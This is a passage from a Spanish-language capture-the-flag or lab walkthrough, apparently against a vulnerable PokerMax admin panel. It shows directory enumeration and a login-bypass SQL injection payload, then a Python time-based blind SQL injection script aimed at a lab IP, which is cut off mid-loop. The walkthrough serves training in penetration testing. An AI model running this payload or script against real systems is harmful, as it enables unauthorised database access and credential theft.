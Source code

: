 ```
phpmyadmin/sql/      
phpmyadmin/locale/
```

El directorio ``/install`` es el que nos brindó pistas ya que buscando con ``searchsploit PokerMax`` encontramos una vulnerabilidad que dentro del código explica que hay una ruta llamada 

- ``http://192.168.0.25.com/pokerleague/pokeradmin/configure.php``

No es válida en nuestro caso pero si vamos a la ruta ``/pokeradmin/configure.php`` llegamos a un panel de **Login**

------
## Explotación
### Login Bypass / Time SQLI Script

Se puede generar un **Bypass** proporcionando ``admin' or 1=1-- -``, también se puede utilizar un script para hacer una Time SQLI para obtener información de las bases de datos.

```python
#!/usr/bin/python3

import os
import string
import time
import signal
from pwn import *
import requests

# Ctrl+C

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

# Variables globales

main_url = "http://192.168.0.25/pokeradmin/index.php"
characters = string.ascii_lowercase + string.digits + ":_-.,"

def time_sqli():

    extracted_info = ""

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de Inyección SQL")
    time.sleep(2)

    p2 = log.progress("Datos extraídos")

    headers = {
        'Content-Type': 'application/x-www-form-urlencoded'
    }

    for position in range(1, 200):
        for character in characters:

            post_data = {
                'op': 'adminlogin',
                'username': "admin' and if(substr(database(),%d,1)='%s', sleep(0.5),1)-- -" % (position, character),
                'password': 'admin' 
```